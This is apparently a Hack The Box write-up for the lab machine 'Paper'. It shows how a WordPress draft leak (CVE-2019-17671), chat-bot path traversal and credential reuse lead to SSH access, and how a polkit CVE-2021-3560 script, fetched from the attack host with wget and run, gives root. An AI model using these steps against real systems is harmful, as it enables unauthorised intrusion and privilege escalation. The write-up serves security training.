








# HTB : Paper


| Field | Details |
| - | - |
| Platform | [Hack The Box](https://app.hackthebox.com/machines/Paper) |
| Difficulty | Easy |
| OS | Linux |
| Author | ByteFragment |
| Date | October 28th 2026 |


## Enumeration

Before we do anything lets create three files:

1. credentials.txt where we will store valid username/passwd combinations

2. users.txt where we will store all usernames we come across

3. pass.txt where we will store all passwords we come across

Having separate files for usernames and passwords in addition to a valid credentials file helps us enumerate for things like password reuse if applicable.

### NMAP

Let's start off by port scanning the target using nmap via the command:

```
sudo nmap -sC -sV -T4 -p- 10.129.88.224 -oN nmap
```

This gives us the open TCP ports running on the target machine as well as the services running on those ports. The `-oN nmap` flag and argument means that the output will also be written to a file titled `nmap` so we can reference it later if needed without running a whole new scan.

```
PORT    STATE SERVICE  VERSION  
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)  
| ssh-hostkey:   
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)  
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)  
|\_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)  
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod\_fcgid/2.3.9)  
|\_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28  
| http-methods:   
|\_  Potentially risky methods: TRACE  
|\_http-title: HTTP Server Test Page powered by CentOS  
|\_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod\_fcgid/2.3.9  
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod\_fcgid/2.3.9)  
|\_ssl-date: TLS randomness does not represent time  
| tls-alpn:   
|\_  http/1.1  
|\_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28  
| http-methods:   
|\_  Potentially risky methods: TRACE  
|\_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod\_fcgid/2.3.9  
|\_http-title: HTTP Server Test Page powered by CentOS  
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US  
| Subject Alternative Name: DNS:localhost.localdomain  
| Not valid before: 2021-07-03T08:52:34  
|\_Not valid after:  2022-07-08T10:32:34
```

From the nmap results, we can see that the target machine is running an `ssh` server on port `22`, and a `http server` on port `80` running ` Apache httpd 2.4.37`. Let's add the target IP as well as `paper.htb`  to our /etc/hosts file as so:

```
10.129.88.224   paper.htb
```

and visit the page using the BurpSuite browser.

### Web Recon



Visiting the web page we see that it is an `HTTP SERVER TEST PAGE` used to confirm the proper operation of the HTTP server installed.


***Nothing immediately jumps out so I continued my recon doing some `directory enumeration` using `GoBuster` and `Sub-Domain enumeration` using `FFUF` but both returned nothing of note.***


Let's take a look at the HTTP request and response in Burp Suite to get a better understanding of what's going on.

It looks to be a pretty standard web request but if we take a closer look at the response we see an interesting header was included:

```
X-Backend-Server: office.paper
```

Let's add `office.paper` to our /etc/hosts file and see if the page contains anything ineresting:



Visiting the page we see that it seems to be a blog for the `Blunder Tiffin Paper Company`.

Scrolling down to the bottom of the page we see that the the page is a `Powered by WordPress` and has a link to `log in`:



#### WPScan

Since we are working with a WordPress site our next step is to run a `WPScan` against the target URL `office.paper`:



From the scan we can see that the page is running `WordPress 5.2.3` which is vulnerable to sensitive information disclosure vulnerability as described in [CVE-2019-17671](https://nvd.nist.gov/vuln/detail/cve-2019-17671).

[Sebastian Neef ](https://www.exploit-db.com/exploits/47690) has a great post on `Exploit-DB` on how to exploit this vulnerability.

By simply adding `?static=1` to the end of the `office.paper` URL we gain access to Unauthenticated/Password/Private Posts:



Doing so we find a series of draft posts, one of which includes a URL for a `Secret Registration URL of new Employee chat system`.

## Foothold

Visiting this URL we are prompted to register a new account:



Once registered we find a chatroom in which the employees of `Blunder Tiffin` are talking about a Rocket Chat Bot called `recyclops` that allows users to access the `Sales` folder:

```
For security reasons, the access is limited to the Sales folder.  
3. Files:  
eg: 'recyclops get me the file test.txt', or 'recyclops could you send me the file src/test.php' or just 'recyclops file test.txt'  
4. List:  
You can ask me to list the files  
5. Time:  
You can ask me to what the time is  
eg: 'recyclops what time is it?' or just 'recyclops time'
```

Opening up a new chat with `recyclops` we can try and abuse this functionality. We know that the bot is only supposed to access files in the `Sales` folder but does it have access to folders/files outside of its designated folder? Let's test this by trying to access `/etc/passwd`:



Success! This means we can use the recyclops bot to access resources throughout the target system.

Listing the contents of the home directory we see it contains a single directory for the user `Dwight`. Within the Dwight directory there is an interesting script, `bit\_restart.sh` , that as the name implies restarts the bot. In the script there are multiple references to the `hubot` directory so lets explore that next:

```
Fetching the directory listing of ../../../../home/dwight/hubot  
total 152  
drwx------ 8 dwight dwight 4096 Sep 16 2021 .  
drwx------ 11 dwight dwight 281 Feb 6 2022 ..  
-rw-r--r-- 1 dwight dwight 0 Jul 3 2021 \\  
srwxr-xr-x 1 dwight dwight 0 Jul 3 2021 127.0.0.1:8000  
srwxrwxr-x 1 dwight dwight 0 Jul 3 2021 127.0.0.1:8080  
drwx--x--x 2 dwight dwight 36 Sep 16 2021 bin  
-rw-r--r-- 1 dwight dwight 258 Sep 16 2021 .env  
-rwxr-xr-x 1 dwight dwight 2 Jul 3 2021 external-scripts.json  
drwx------ 8 dwight dwight 163 Jul 3 2021 .git  
-rw-r--r-- 1 dwight dwight 917 Jul 3 2021 .gitignore  
-rw-r--r-- 1 dwight dwight 35806 Oct 28 20:19 .hubot.log  
-rwxr-xr-x 1 dwight dwight 1068 Jul 3 2021 LICENSE  
drwxr-xr-x 89 dwight dwight 4096 Jul 3 2021 node\_modules  
drwx--x--x 115 dwight dwight 4096 Jul 3 2021 node\_modules\_bak  
-rwxr-xr-x 1 dwight dwight 1062 Sep 16 2021 package.json  
-rwxr-xr-x 1 dwight dwight 972 Sep 16 2021 package.json.bak  
-rwxr-xr-x 1 dwight dwight 30382 Jul 3 2021 package-lock.json  
-rwxr-xr-x 1 dwight dwight 14 Jul 3 2021 Procfile  
-rwxr-xr-x 1 dwight dwight 5044 Jul 3 2021 README.md  
drwx--x--x 2 dwight dwight 193 Jan 13 2022 scripts  
-rwxr-xr-x 1 dwight dwight 100 Jul 3 2021 start\_bot.sh  
drwx------ 2 dwight dwight 25 Jul 3 2021 .vscode  
-rwxr-xr-x 1 dwight dwight 29951 Jul 3 2021 yarn.lock
```

The `.env` file immediately jumps out as something to explore as it could contain credentials or other interesting information:

```
\<!=====Contents of file ../../../../home/dwight/hubot/.env=====\>  
export ROCKETCHAT\_URL='http://127.0.0.1:48320'  
export ROCKETCHAT\_USER=recyclops  
export ROCKETCHAT\_PASSWORD=REDACTED  
export ROCKETCHAT\_USESSL=false  
export RESPOND\_TO\_DM=true  
export RESPOND\_TO\_EDITED=true  
export PORT=8000  
export BIND\_ADDRESS=127.0.0.1  
export ROCKETCHAT\_URL='http://127.0.0.1:48320'  
export ROCKETCHAT\_USER=recyclops  
export ROCKETCHAT\_PASSWORD=\<REDACTED\>  
export ROCKETCHAT\_USESSL=false  
export RESPOND\_TO\_DM=true  
export RESPOND\_TO\_EDITED=true  
export PORT=8000  
export BIND\_ADDRESS=127.0.0.1  
\<!=====End of file ../../../../home/dwight/hubot/.env=====\>
```

And indeed it does contain credentials for the recyclops account on RocketChat so lets add them to our credentials.txt file!

Looking back at our NMAP scan we see that the target machine is also running an ssh server, let's try and use these credentials to gain access. However since Recyclops is not a user on the machine we can try and use the discovered password to authenticate as the only user we have discovered in the home directory: `Dwight` :

```
ssh dwight@paper.htb     
\*\* WARNING: connection is not using a post-quantum key exchange algorithm.  
\*\* This session may be vulnerable to "store now, decrypt later" attacks.  
\*\* The server may need to be upgraded. See https://openssh.com/pq.html  
dwight@paper.htb's password:   
Activate the web console with: systemctl enable --now cockpit.socket  
  
Last login: Tue Feb  1 09:14:33 2022 from 10.10.14.23  
\[dwight@paper ~\]$ whoami  
dwight  
\[dwight@paper ~\]$ hostname  
paper
```

We now have ssh access to the machine! The user.txt file can be found in the /home/dwight\` directory.

## Escalation

Now that we have user access to the system we can try and escalate our privileges.

Listing the running processes on the system using the command `ps aux` we see that the `polkit` process is running on the system:

```
...  
  
polkitd     1040  0.0  1.1 1953304 20772 ?       Ssl  16:48   0:01 /usr/lib/polkit-1/polkitd --no-debug  
  
...
```

`polkit` is meant to "allow privileged applications to expose services to unprivileged subjects". This seems like a promising path so let's see what version the target machine is using, this will make it much easier to find any vulnerabilities/POC's online.

Running the command `rpm -q  polkit` gives us the version:

```
\[dwight@paper ~\]$ rpm -qa polkit  
polkit-0.115-6.el8.x86\_64
```

Using this we can search for exploits that target this specific version. Doing so we find that this version of polkit contains a privilege escalation vulnerability as detailed in [CVE-2021-3560](https://nvd.nist.gov/vuln/detail/cve-2021-3560). A PoC exploit script can be found on [secnigma](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation)'s github.

After downloading the script to our attack machine we can set up a python web server in while in the same directory as the downloaded script.

Then in our ssh session on the target machine download the file using wget or curl:

```
\[dwight@paper ~\]$ wget 10.10.15.249/poc.sh  
--2026-10-28 20:54:22--  http://10.10.15.249/poc.sh  
Connecting to 10.10.15.249:80... connected.  
HTTP request sent, awaiting response... 200 OK  
Length: 9627 (9.4K) \[application/x-sh\]  
Saving to: ‘poc.sh’  
  
poc.sh                               100%\[===================================================================\>\]   9.40K  --.-KB/s    in 0s        
  
2026-10-28 20:54:22 (121 MB/s) - ‘poc.sh’ saved \[9627/9627\]
```

Now we need to give the file execution permissions and then run it:

```
\[dwight@paper ~\]$ ./poc.sh  
  
\[!\] Username set as : secnigma  
\[!\] No Custom Timing specified.  
\[!\] Timing will be detected Automatically  
\[!\] Force flag not set.  
\[!\] Vulnerability checking is ENABLED!  
\[!\] Starting Vulnerability Checks...  
\[!\] Checking distribution...  
\[!\] Detected Linux distribution as "centos"  
\[!\] Checking if Accountsservice and Gnome-Control-Center is installed  
\[+\] Accounts service and Gnome-Control-Center Installation Found!!  
\[!\] Checking if polkit version is vulnerable  
\[+\] Polkit version appears to be vulnerable!!  
\[!\] Starting exploit...  
\[!\] Inserting Username secnigma...  
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required  
\[+\] Inserted Username secnigma  with UID 1005!  
\[!\] Inserting password hash...  
\[!\] It looks like the password insertion was succesful!  
\[!\] Try to login as the injected user using su - secnigma  
\[!\] When prompted for password, enter your password   
\[!\] If the username is inserted, but the login fails; try running the exploit again.  
\[!\] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!  
\[dwight@paper ~\]$ su - secnigma  
Password:   
\[secnigma@paper ~\]$ sudo bash  
\[sudo\] password for secnigma:   
\[root@paper secnigma\]\# whoami  
root  
\[root@paper secnigma\]\# hostname  
paper
```

We are now running as the root user! The root flat can be found in the /root directory thus solving the challenge:



